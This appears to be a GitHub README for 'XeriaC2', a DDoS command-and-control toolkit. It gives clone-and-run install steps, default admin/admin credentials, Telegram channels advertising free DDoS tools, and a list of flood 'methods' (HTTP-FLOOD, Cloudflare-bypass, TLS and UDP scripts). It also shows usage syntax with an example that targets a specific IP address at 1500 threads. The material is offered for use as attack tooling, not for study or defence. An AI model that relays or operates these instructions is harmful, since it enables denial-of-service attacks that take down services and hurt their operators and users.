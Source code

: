 ## Tutorial
1. Open Github XeriaC2
2. Open File Methods
3. Click tutorial.txt
4. Open Terminal Or Cloud Shell
5. Input cd XeriaC2
6. And You See File Methods
7. Node.js Methods Run : node name.js
8. Golang.js Run : go run name.go
9. Python.js Run : python name.py
10. Thankss
11. 

## Telegram/Chat/Bug
Free Tools DDoS/Methods : https://t.me/freetoolsddos

Telegram : https://t.me/perkicauc2

Chat : https://t.me/xeriac2chat

Bug? : https://t.me/perkicau

## ADMIN/PASSWORD
Username : admin

Password : admin

## How To Install : 

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

python xeriac2.py

## Wanna Update Method?
remove file XeriaC2
Open Terminal
Paste :

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

and scroll you can get the method maybe node HTTP-FLOOD.js 

----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500


## Methods : 

node BYPASS.js

node Tlsv1.js

go run STRONG-CFB.go

node HTTP-RAW.js

node http-get.js

node tls.js

node tlsv2.js

python udp.py

python UDP.py

./http

The Methods Js,Golang,Python

PLEASE STAR WITH YOU SUPPORT ME


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
